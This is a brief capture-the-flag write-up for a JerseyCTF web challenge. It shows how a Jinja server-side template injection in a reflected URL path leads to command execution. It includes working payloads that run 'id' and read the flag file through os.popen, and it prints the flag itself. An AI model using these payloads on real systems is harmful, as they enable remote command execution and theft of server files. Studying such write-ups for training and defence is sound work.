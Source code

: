 # ninja-jackers 
### Description
> Seems like a rogue AI group put up a site to advertise some of their hacking skills. We might be able to find more information on how to stop them if we can find what information is stored somewhere on the web server. Find the vulnerability on this site and get the contents of the flag file!

### Writeup
tl;dr jinja templete injection.

As we can see, `/contact` is reflecting in the webpage. Therefore this is the endpoint we need to fuzz.

As the challenge itself says, it has something to do with injection, I have tried jinja injection (SSTI).

url: `https://jerseyctf-ninja-jackers.chals.io/%7B%7Bself.__init__.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D`

![](https://i.imgur.com/SysB4F9.png)

and yes, we can get shell or do LFI.

using this payload we can get the flag:
`https://jerseyctf-ninja-jackers.chals.io/%7B%7Bself.__init__.__globals__.__builtins__.__import__('os').popen('cat%20../FLAG_is_H3RE.txt').read()%7D%7D`

Flag: `jctf{Ar3Nt_Y0U_GLaD_I_Didnt_SAY_NINJA}`